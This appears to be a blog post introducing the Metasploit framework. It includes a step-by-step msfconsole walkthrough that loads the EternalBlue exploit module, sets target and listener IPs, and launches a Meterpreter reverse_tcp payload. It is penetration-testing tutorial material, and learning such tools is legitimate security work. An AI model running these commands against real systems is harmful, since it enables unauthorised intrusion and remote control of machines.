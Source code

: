 ```yaml
---
layout: post
title: "MetaSpoilt"
date: "2023-11-21"
categories: linux
published: true
---
```



Metasploit is a powerful open-source penetration testing framework its an essential tool for security professionals. Originally developed by H.D. Moore in 2003, Metasploit has since evolved into a comprehensive platform that facilitates the discovery, exploitation, and validation of vulnerabilities in various systems.

## What is Metasploit?

Metasploit provides a wide range of tools and resources for penetration testers, security researchers, and information security professionals. It simplifies the process of identifying and exploiting vulnerabilities, allowing users to assess the security of networks, applications, and systems in a controlled environment.

### Key Features of Metasploit

1. **Exploit Development:** Metasploit includes a vast collection of pre-built exploits, payloads, and auxiliary modules that assist in the development and execution of attacks.

2. **Payloads:** The framework supports a variety of payloads, enabling testers to deliver malicious code or actions to target systems. Payloads range from simple command execution to more advanced functionalities like Meterpreter sessions.

3. **Post-Exploitation:** Metasploit goes beyond just exploitation by providing tools for post-exploitation activities. This includes gathering information, privilege escalation, lateral movement, and maintaining access to compromised systems.

4. **Database Integration:** Metasploit integrates with databases to store and manage information about discovered vulnerabilities, exploited systems, and ongoing penetration tests. This facilitates efficient reporting and analysis.

## Getting Started with Metasploit

### Installation

Installing Metasploit is straightforward, and it is compatible with various operating systems, including Linux, Windows, and macOS. The official Metasploit website provides detailed installation instructions for different platforms.

[MetaSpoilt](https://www.metasploit.com/)

### Basic Usage

Once installed, users can launch the Metasploit console to interact with the framework. The command-line interface allows for the execution of various commands and modules.

```markdown
$ msfconsole
```

To demonstrate the simplicity of Metasploit, let's consider a basic scenario. Suppose you want to exploit a known vulnerability such as eternal blue,all you need is the ip address of the target machine. (EternalBlue is a computer exploit developed by the equation group or nationail security agency It was devolped around 2011 but eventually got leaked by the Shadow Brokers hacker group on April 14, 2017 it was designed to exploit a zero-day vulnerability in every version of Windows prior to Windows 8) 

Metasploit simplifies this process using pre-built modules.

```markdown
msf6 > search eternalblue
```
```markdown
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > options
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts (targets_ip)
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lhost (listener_ip)
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
```
```markdown
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

This is a basic example, and Metasploit offers an extensive range of modules for different services, operating systems, and vulnerabilities.

### Conclusion

Metasploit remains an invaluable tool in the realm of cybersecurity, aiding security professionals in identifying and addressing vulnerabilities. Its open-source nature, active community, and continuous development make it a go-to choice for ethical hacking and penetration testing.
